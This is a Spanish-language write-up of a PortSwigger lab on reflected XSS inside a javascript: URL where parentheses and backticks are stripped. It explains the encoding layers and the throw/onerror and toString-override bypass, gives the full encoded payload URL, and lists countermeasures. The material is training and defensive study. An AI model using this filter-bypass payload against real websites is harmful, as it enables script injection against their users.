

# Writeup: Reflected XSS in a JavaScript URL with some characters blocked (PortSwigger)

- **Lab**: Reflected XSS in a JavaScript URL with some characters blocked
- **URL**: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
- **Categoría**: XSS / Reflected / Contextos / `javascript:` URL inside HTML attribute
- **Dificultad**: Practitioner

---

## 1. Objetivo

Reflejo del parámetro `search` dentro de una URL `javascript:` que es el `href` del enlace "Back to Blog". El servidor bloquea algunos caracteres (no listados en la descripción) "to prevent XSS attacks". Hay que conseguir que un click en "Back to Blog" ejecute `alert` con `1337` en el mensaje.

A diferencia de los labs anteriores de la serie de contextos, aquí no hay un `<script>` con un string regular ni un template literal. El input cae **dentro de una URL `javascript:`, dentro de un atributo HTML**, lo que añade capas de codificación que hay que entender antes de poder explotar.

---

## 2. Reconocimiento del contexto

### Sink identificado

Cargando `/post?postId=5` y mirando View Source, el reflejo aparece dentro del `href` de un `<a>`:

```html
<div class="is-linkback">
  <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d2%26search%3dtest'}).finally(_ =&gt; window.location = '/')">Back to Blog</a>
</div>
```

El `body` del `fetch` contiene `'/post%3fpostId%3d2%26search%3dtest'`, donde `test` es nuestro input. Estructura:

- Atributo HTML `href="..."` (capa 1).
- Su valor es una URL `javascript:` (capa 2: cuando el browser navega a ella, hace URL-decode antes de ejecutar).
- Dentro del JS hay un `fetch()` cuyo segundo argumento es un object literal con `body: '...string con nuestro input...'`.
- El input está dentro de una **string literal con comilla simple** (capa 3).

### Capas de codificación que importan

1. **Request → server**: el browser URL-encodea el query string. Server decodea, ve el valor crudo de `search`.
2. **Server → HTML**: el server URL-encodea el valor para meterlo en el `body:'...'`. Caracteres como `?`, `=`, `&`, `'`, `;` aparecen como `%3F`, `%3D`, `%26`, `%27`, `%3B`.
3. **Browser parse HTML**: HTML-decodea el atributo (`&gt;` → `>`).
4. **Click en el link**: el browser URL-decodea la URL `javascript:` antes de tratarla como JS. Aquí `%27` vuelve a `'`, `%3D` vuelve a `=`, etc.
5. **JS engine**: parsea y ejecuta el código resultante.

Las capas 2 y 4 son inversas, así que la mayoría de caracteres "atraviesan" el sandwich sin alteración semántica. Esto significa que el filtro del server NO se basa en URL-encoding (lo aplica como mecánica neutral), sino en **eliminar selectivamente algunos caracteres antes de codificar**.

### Sondeos atómicos

Una probe por hipótesis (esta vez sí, metodológicamente correcto):

| # | Input | Output rendered en `body:'...'` | Conclusión |
|---|---|---|---|
| 1 | `test'` | `test%27` | `'` pasa, URL-encodeado |
| 2 | `test%27` | `test%27` | el doble encoding del cliente colapsa al mismo valor |
| 3 | `test;alert` | `test%3balert` | `;` pasa, `alert` pasa intacto |
| 4 | `test alert` | `test+alert` | espacio se URL-encodea como `+` (form-encoding) |
| 5 | `test/**/alert` | `test/**/alert` | `/` y `*` pasan literales |
| 6 | `test(1)` | `test1` | **paréntesis BORRADOS** (no encoded, eliminados) |
| 7 | `test//` | `test//` | `//` pasa literal |
| 8 | `` test`x` `` | `testx` | **backticks BORRADOS** (igual que parens) |

### Filtro real del lab

- **Eliminados completamente del input**: `(`, `)`, `` ` ``.
- **URL-encoded para el body string** (pero efectivamente pasan, decodean al click): el resto.
- **Espacio especial**: el server lo convierte a `+`, que en el JS final queda como literal `+` (operador de suma/concatenación).

La eliminación de paréntesis y backticks elimina las dos formas convencionales de invocar funciones en JS:
- `alert(1337)` — necesita parens.
- `` alert`1337` `` — tagged template literal, necesita backticks.

Hay que llamar `alert` sin paréntesis ni backticks. Trick conocido: **abusar del `onerror` global y `throw`**.

---

## 3. El truco: `throw onerror=alert,1337` + override de `toString`

### Cómo invocar una función sin paréntesis

JS llama funciones en algunos contextos sin necesidad de `()`:

1. **`throw`**: cuando una expresión thrown llega a `window.onerror` (handler global del navegador), `onerror` es invocado con la `message` como primer argumento. Así, `onerror=alert; throw 1337` → browser llama `alert("Uncaught 1337")`.

2. **Conversión implícita**: `window + ''` triggera `Symbol.toPrimitive` en window. Si el método de conversión (`toString` o `valueOf`) está sobreescrito, ESE método se ejecuta.

Combinando ambas:

```javascript
toString = _ => { throw onerror=alert, 1337 };
window + ''
```

Pasos al ejecutar:
1. `toString = ...`: asigna nuestra arrow function al global `toString` (en non-strict, eso es `window.toString`).
2. `window + ''`: el motor JS necesita convertir `window` a string. Llama `window.toString()` → ejecuta nuestra arrow function.
3. La arrow function ejecuta `throw onerror=alert,1337`:
   - `onerror=alert,1337` (comma operator): asigna `alert` al global `onerror` (devuelve `alert`), después devuelve `1337`. Resultado: `1337`.
   - `throw 1337` lanza un error con valor `1337`.
4. El throw burbujea hasta el browser, que llama `window.onerror(message, ...)`. Ahora `onerror` es `alert`, así que `alert("Uncaught 1337")` aparece en pantalla.

`1337` aparece en el mensaje del alert (junto con "Uncaught"), satisfaciendo el objetivo del lab.

### Cero parens, cero backticks

El payload usa solo: `=`, `,`, `;` (no necesario en este caso), `{`, `}`, `=>`, espacios (sustituidos por `/**/`), y palabras alfanuméricas. Todos confirmados como permitidos por los sondeos.

---

## 4. Construcción del payload — debugging real

### Primer intento (fallido por syntax error)

```
'},toString=_=>{throw/**/onerror=alert,1337},window+'
```

Tras URL-decoding por el browser, el JS resultante es:

```javascript
fetch('/analytics', {method:'post',body:'/post?postId=2&search='},toString=_=>{throw/**/onerror=alert,1337},window+''}).finally(_ => window.location = '/')
```

El parser tira `Uncaught SyntaxError: missing ) after argument list`. Mirando con cuidado, hay un `}` de más:

```
fetch( arg1, arg2={...}, arg3=toString=..., arg4=toString=x, arg5=window+'' } ).finally(...)
                                                                          ^ ¿de dónde sale?
```

Recuento de llaves: `{method,body}` se abre y cierra en arg2 (mi `}`). `{throw...}` (block del arrow function) se abre y cierra. Hasta arg5 todas balanceadas. Pero el código original tenía `}).finally(...)` después de `test`, así que después de mi último `'`, viene el `'` original (cerrando una string vacía con mi `'+''`) y después el `}` original. Ese `}` es huérfano: nada lo abrió.

### Segundo intento (correcto)

Para consumir el `}` huérfano, el payload tiene que abrir un `{` que necesite ese cierre:

```
'},toString=_=>{throw/**/onerror=alert,1337},window+{a:'
```

Cambio: `window+'` → `window+{a:'`. Esto añade un `{a:` al final, abriendo un object literal. La `'` inicial abre un string que se cierra con la `'` original siguiente (string vacía dentro del object). Después el `}` original cierra el object literal `{a:''}`. Luego el `)` cierra el fetch.

JS final:

```javascript
fetch('/analytics', {method:'post',body:'/post?postId=2&search='},toString=_=>{throw/**/onerror=alert,1337},window+{a:''}).finally(_ => window.location = '/')
```

Tokens balanceados:
- `fetch(` — paren depth 1
- `{method,body}` — brace +1, -1, neto 0
- `toString=_=>{...}` — brace +1, -1, neto 0
- `window+{a:''}` — brace +1, -1, neto 0 ← aquí mi `{` y el `}` original
- `)` — paren depth 0

`window+{a:''}` triggera la conversión, llama `window.toString()` (ahora nuestra arrow function), throw, alert.

### URL final

```
/post?postId=5&search=%27%7D%2CtoString%3D_%3D%3E%7Bthrow/**/onerror%3Dalert%2C1337%7D%2Cwindow%2B%7Ba%3A%27
```

Decodificado: `?search='},toString=_=>{throw/**/onerror=alert,1337},window+{a:'`

---

## 5. Resolución

1. Cargué la URL del lab con el payload encoded en `?search=`.
2. La página renderizó el `<a href="javascript:...">Back to Blog</a>` con el payload incrustado en el `body` del fetch.
3. Click en "Back to Blog".
4. Saltó `alert("Uncaught 1337")` con el `1337` requerido. PortSwigger detectó el alert y marcó **Solved**.



---

## 6. Resumen de la cadena

```mermaid
flowchart TB
    A[1. Reflejo en JS string dentro de body de fetch dentro de URL javascript dentro de href HTML]
    B[2. Sondeos atomicos para mapear filtros]
    C[3. Hallazgo: parens y backticks BORRADOS, resto solo URL-encoded]
    D[4. Sin parens ni backticks, llamar funcion: throw + onerror trick]
    E[5. Setear toString=arrow_que_throwea, window+ algo triggera toString]
    F[6. Primer payload: syntax error por brace de mas del original sin consumir]
    G[7. Fix: terminar payload con {a:' para que el } original cierre nuestro object]
    H[8. Click en Back to Blog -> throw -> alert con 1337]

    A --> B --> C --> D --> E --> F --> G --> H
```

Tres ideas para llevarse:

1. **Cuando el reflejo cae en una `javascript:` URL dentro de un atributo HTML, el browser hace URL-decoding ANTES de ejecutar el JS**. Esto significa que `%27` decodea a `'` y rompe strings, etc. El filtro del server no puede defenderse solo con URL-encoding; tiene que eliminar caracteres peligrosos del input.
2. **Cuando un filtro BORRA paréntesis y backticks, queda el truco `throw onerror=alert,X`**. Es el patrón canónico. Combinarlo con `toString` override para activarlo desde una expresión benigna como `window+''` o `window+{a:''}`.
3. **Balancear las llaves del payload con las del código original**. Cualquier breakout en un sink complejo (object literal dentro de function call dentro de javascript: URL) tiene que dejar el árbol sintáctico válido. Si el original cierra una `}` que ya no tiene padre por nuestra inyección, hay que consumir esa `}` abriendo un nuevo `{` al final del payload.

---

## 7. Contramedidas

Defensas en orden de robustez:

1. **No reflejar input en `javascript:` URLs**. Punto. Es un anti-patrón conocido. Si el sitio necesita ejecutar JS al click, usar event listeners (`addEventListener`) sobre datos almacenados en el DOM (atributos `data-*`), no construir el JS dinámicamente. La capa de `javascript:` URL ya es una superficie de ataque inherentemente peligrosa.
2. **Si tiene que ser `javascript:` URL, escapar el input con JSON-encoding antes de inyectarlo**. `JSON.stringify` produce un string con todas las comillas escapadas, y al concatenar dentro del JS no permite breakout. Pero entonces el atacante debería ser incapaz de obtener un JSON.stringify válido que rompa nada.
3. **Content Security Policy** que prohíba `javascript:` URLs vía `script-src` y `navigate-to`. CSP nivel 3 puede bloquear navegaciones a `javascript:` schemes específicamente.
4. **Sanitizar el input ANTES de URL-encoding** con allowlist de caracteres seguros (alfanuméricos solamente). Bloquear `'`, `"`, `\`, `;`, `=`, `,`, etc., NO solo parens y backticks. El filtro del lab era débil porque solo cubría dos caracteres pensando que eran los únicos vectores; ignoraba la cadena de comma operator + assignment + arrow function.
5. **Auditar TODOS los `javascript:` URLs del sitio** y verificar qué partes son dinámicas y qué partes son estáticas. Cada una debe tratarse como un sink crítico de XSS.

### Anti-patrón frecuente

Asumir que "bloquear paréntesis impide llamar funciones". JS tiene múltiples formas de invocar funciones:
- `f(args)` (parens)
- `` f`args` `` (backticks)
- `new f(args)` (parens)
- `[].constructor.constructor("...")()` (parens)
- `throw expr` + `onerror` (sin parens ni backticks)
- `Symbol.toPrimitive` / `toString` / `valueOf` overrides + concat/coerce (sin parens)
- `Reflect.apply(...)` (parens)
- `setTimeout(string)` (en algunos browsers, parens)

El blocklist de parens es un tag-team débil. La defensa real es allowlist + sanitización del context-aware output.

---

## 8. Lección general: capas de codificación como superficie de ataque

Este lab tiene cuatro capas entre input y ejecución:
- URL encoding del request
- URL encoding del server al embeber en HTML
- HTML attribute decoding al parsear `href`
- URL decoding del browser al navegar a `javascript:`

Cada capa puede introducir oportunidades:
- Si una capa codifica algo y otra decodifica, el resultado es transparente (`'` → `%27` → `'`).
- Si una capa codifica y la siguiente NO decodifica el mismo formato (espacio → `+` en URL → no decodea a espacio en `javascript:`), el char se transforma semánticamente.
- Si dos capas codifican diferente, hay vectores tipo "double encoding" para confundir al filtro.

Heurística: cuando un sink tiene múltiples capas, mapear qué capa codifica/decodifica cada char. La hoja de cálculo `entrada → salida` es la herramienta clave para encontrar disparidades explotables.

Comparado con labs previos:
- `reflected-xss-js-string-sq-backslash-escaped`: 1 capa (HTML).
- `reflected-xss-js-template-literal-escapes`: 2 capas (HTML + JS template literal).
- Este lab: 4 capas. Más rico, más difícil, más educativo.

---

## 9. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Reflected XSS in a JavaScript URL with some characters blocked*. https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
- WHATWG. (s.f.). *URL Living Standard — javascript: scheme*. https://url.spec.whatwg.org/
- ECMA International. (2024). *ECMAScript 2024 Language Specification*. https://tc39.es/ecma262/ — secciones sobre `Symbol.toPrimitive`, comma operator, throw.
- MDN Web Docs. (s.f.). *GlobalEventHandlers.onerror*. https://developer.mozilla.org/en-US/docs/Web/API/GlobalEventHandlers/onerror
- PortSwigger Research. (s.f.). *XSS cheat sheet*. https://portswigger.net/web-security/cross-site-scripting/cheat-sheet — sección "JavaScript URLs".
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-xss.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-xss.md) — cubre `javascript:` URL como contexto de reflejo.
- Writeup propio: [`learning/portswigger/reflected-xss-event-handlers-href-blocked/writeup.md`](../reflected-xss-event-handlers-href-blocked/writeup.md) — lab anterior donde `href` también está bloqueado pero el bypass es vía SVG `<animate>` (técnica distinta para problema relacionado).
